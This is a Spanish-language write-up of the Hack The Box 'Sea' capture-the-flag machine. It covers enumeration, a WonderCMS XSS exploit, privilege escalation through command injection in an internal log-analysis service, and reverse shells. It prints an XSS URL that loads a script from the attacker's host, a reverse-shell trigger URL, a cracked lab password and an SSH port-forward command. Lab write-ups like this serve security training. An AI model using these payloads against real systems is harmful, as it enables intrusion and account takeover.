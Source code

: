+++
author = "Andrés Del Cerro"
title = "Hack The Box: Sea Writeup | Easy"
date = "2024-12-22"
description = ""
tags = [
    "HackTheBox",
    "Sea",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "Credentials Reuse",
    "Port Forwarding",
    "Decrypting Password",
    "HTTP Enumeration",
    "Server Side Request Forgery",
    "XSS",
    "Command Injection"
]

+++

# TCP Enumeration

```shell
$ rustscan -a 10.129.244.211 --ulimit 5000 -g
10.129.244.211 -> [80,22]
```

```shell
$ nmap -p80,22 -sCV 10.129.244.211 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:55 CEST
Nmap scan report for 10.129.244.211
Host is up (0.037s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
|   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
|_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Sea - Home
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.65 seconds
```

# UDP Enumeration
```shell
 sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.244.211 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-12 09:56 CEST
Nmap scan report for 10.129.244.211
Host is up (0.036s latency).
Not shown: 1494 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
18818/udp closed unknown
25402/udp closed unknown
37444/udp closed unknown
41638/udp closed unknown
48189/udp closed unknown
58419/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```

Solo vemos el puerto 22/TCP y 80/TCP, por lo cual el puerto 80 debe de ser el punto de entrada.

# HTTP Enumeration
Haciendo un `whatweb` podemos ver que se está utilizando PHP por detrás.

```shell
$ whatweb http://10.129.244.211
http://10.129.244.211 [200 OK] Apache[2.4.41], Bootstrap[3.3.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.244.211], JQuery[1.12.4], Script, Title[Sea - Home], X-UA-Compatible[IE=edge]
```

Según ingresamos en el sitio web vemos un a imagen con un texto, velik71
![Write-up Image](images/Screenshot_1.png)

También descubrimos un dominio, `sea.htb`, lo añadimos al `/etc/hosts`
![Write-up Image](images/Screenshot_2.png)

Fuzzeando con `feroxbuster` encontramos varias rutas que me hacen pensar que existe un CMS detrás, pero aún no se cual.
![Write-up Image](images/Screenshot_3.png)

Investigando un poco, podemos encontrar este post.
![Write-up Image](images/Screenshot_4.png)

Y podemos deducir que por detrás se utiliza `WonderCMS`
![Write-up Image](images/Screenshot_5.png)

Ahora bien, necesito saber cual es el panel de inicio de sesión para intentar ganar acceso ya que exploits como [este](https://www.exploit-db.com/exploits/51805) necesita una cookie de sesión.

Buscando por foros vemos que por defecto el path para iniciar sesión es `/login` pero que podemos personalizarlo en el archivo `database.js`

Revisando el código del exploit mencionado anteriormente, vemos lo siguiente.
![Write-up Image](images/Screenshot_8.png)

Y al probar esa URL...
![Write-up Image](images/Screenshot_9.png)

# Foothold
Después de probar un rato, en el `contact.php` podemos introducir un sitio web nuestro y podemos ver que nos llegan solicitudes, por lo cual intentemos usar el exploit anteriormente mencionado.
![Write-up Image](images/Screenshot_11.png)

El exploit consiste en un XSS que cargará un script malicioso de nuestro lado que conseguirá subir una reverse shell.

Si todo sale bien, debería de subirse una revshell en esa ruta
![Write-up Image](images/Screenshot_13.png)

Después de un rato probando, probé con esta URL `http://sea.htb/"></form><script+src="http://10.10.14.13:8000/xss.js"></script><form+action="` . Y sorprendentemente funcionó.
![Write-up Image](images/Screenshot_12.png)

Ahora podemos ver que para mandarnos la revshell, debemos utilizar los parámetros `lhost` y `lport`

![Write-up Image](images/Screenshot_14.png)

Así que accediendo a `http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.14.13&lport=443`..

¡Vemos que ganamos acceso!
![Write-up Image](images/Screenshot_15.png)

# User Pivoting
En el archivo `/data/database.js` podemos encontrar un hash.
![Write-up Image](images/Screenshot_16.png)

Deducimos que es el modo 3200 en `hashcat`
![Write-up Image](images/Screenshot_17.png)

Antes de empezar a crackear el hash, hay que tener en cuenta que las `\` sobran ya que es para escapar las `/`, así que las eliminamos.

Así queda el hash `$2y$10$iOrk210RQSAzNCx6Vyq2X.aJ/D.GuE4jRIikYiWrD3TM/PjDnXm4q`

¡Y conseguimos crackear la password!
![Write-up Image](images/Screenshot_18.png)

¡Y podemos migrar de usuario!
![Write-up Image](images/Screenshot_19.png)

Y leer la flag.
```shell
may@sea:~$ cat user.txt 
3290eed2bd498c56b...
```

# Privilege Escalation

Podemos encontrar un binario con permisos SUID interesante.
```shell
amay@sea:~$ file /opt/google/chrome/chrome-sandbox
/opt/google/chrome/chrome-sandbox: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=810fb5876a6ce41bb6431f7273efe24800978d66, stripped
```

También encontramos un servicio en el puerto 8080 interno de la máquina

```shell
$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:53901         0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -         
```

Podemos ver que este servicio web es diferente al anterior.
```shell
amay@sea:~$ curl http://127.0.0.1:8080
Unauthorized access
```

Vamos a compartirnos este puerto con SSH para que el puerto 8080 de la máquina víctima se convierta en mi puerto 8080 de mi máquina de atacante.

```shell
$ sshpass -p 'mychemicalromance' ssh -L 8080:127.0.0.1:8080 amay@sea.htb
```

Y vemos que nos pide unas credenciales.
![Write-up Image](images/Screenshot_20.png)

Si probamos `amay:mychemicalromance`

![Write-up Image](images/Screenshot_21.png)

Cambiamos el puerto del proxy de `burpsuite` para que no choque con el servicio que nos hemos compartido..
![Write-up Image](images/Screenshot_22.png)

Analizando la función de `Analyze Log File` vemos que en la petición se tramita una ruta.

![Write-up Image](images/Screenshot_23.png)

Por lo cual quizás podemos insertar otra ruta distinta, o intentar inyectar un comando a nivel de sistema.

Nos ponemos en escucha de trazas ICMP con `tcpdump`

```shell
$ sudo tcpdump -i tun0 icmp
```

Y si intentamos inyectar un comando...
![Write-up Image](images/Screenshot_24.png)

¡Perfecto!
```shell
12:01:01.519973 IP sea.htb > 10.10.14.13: ICMP echo request, id 3, seq 1, length 64
12:01:01.519992 IP 10.10.14.13 > sea.htb: ICMP echo reply, id 3, seq 1, length 64
```

No se como que usuario voy a conseguir ganar acceso aún, pero vamos a mandarnos una revshell.

Con este payload nos mandamos la revshell
![Write-up Image](images/Screenshot_25.png)

Y ganamos acceso como `root`
![Write-up Image](images/Screenshot_26.png)

Podemos leer la flag de `root`
```shell
(remote) root@sea:/root/monitoring# cat /root/root.txt
d4be647341065f...
```

¡Y ya estaría!

Feliz Hacking! 🚀
